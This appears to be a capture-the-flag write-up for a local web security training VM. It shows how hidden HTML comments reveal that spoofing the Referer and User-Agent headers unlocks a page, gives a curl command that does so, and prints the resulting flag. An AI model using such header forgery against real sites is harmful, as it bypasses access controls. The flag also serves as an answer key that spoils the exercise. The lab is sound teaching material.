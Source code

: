 ## to find breaches
- Go to Copyright page (http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f)
- And check the Elements inside *<section id="main class "wrapper">*

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```
- send the GET request to *"http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"*  via 
## 1.Postman
- **"User-Agent: ft_bornToSec"**
- **"Refer: https://www.nsa.gov/"**
![postman](./postman.png)
- flag is: ```f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188```

## 2.curl
```
curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" 
```